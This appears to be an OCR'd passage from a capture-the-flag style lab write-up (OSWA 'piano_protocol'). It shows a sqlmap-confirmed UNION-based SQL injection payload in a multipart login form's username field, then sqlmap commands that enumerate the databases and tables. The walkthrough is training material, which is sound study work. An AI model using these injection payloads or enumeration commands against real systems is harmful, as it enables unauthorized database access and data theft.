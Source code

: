 ```sql
Content-Disposition: form-data; name="dType"

loginRequest
------WebKitFormBoundary8LPrCAt0EnCfI1Cc--

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: ------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="_token"

27hoFiHGwgBmFVxPb9kfeImpIdo4HVzaxzxtDsZ5
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="username"

test' UNION ALL SELECT NULL,CONCAT(0x716a706a71,0x6f486e4e646e72584577445a434b55615849617a724b41636374546c7874715a48754b68756e6950,0x71716a7671),NULL,NULL,NULL,NULL-- -
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="password"

test
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="dType"

loginRequest
------WebKitFormBoundary8LPrCAt0EnCfI1Cc--
---
[04:18:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[04:18:00] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/piano'
[04:18:00] [WARNING] your sqlmap version is outdated
```
now we test to identify the databases with the `--dbs` option, now we have the `dbs` `piano_protocol` we can look for the `tables`
```bash
──(root💀gobots)-[25Nov2024 17:13:47]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]                                             
└─# sqlmap -r post_req.txt -p username --dbs --batch      
[04:30:33] [INFO] the back-end DBMS is MySQL       
web server operating system: Linux Debian          
web application technology: Apache 2.4.52, PHP 7.3.33                                                 
back-end DBMS: MySQL >= 5.6                        
[04:30:33] [INFO] fetching database names          
available databases [6]:                           
[*] information_schema                             
[*] mysql                                          
[*] performance_schema                             
[*] piano_protocol                                 
[*] sqli                                           
[*] sys              
```
now we test to find the `--tables` in the `piano_protocol` database
```bash
┌──(root💀gobots)-[10Dec2024 04:30:33]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol --tables --batch    
[04:31:16] [INFO] fetching tables for database: 'piano_protocol'                                      
Database: piano_protocol                           
[2 tables]                                         
+------------------+                               
| contact_requests |                               
```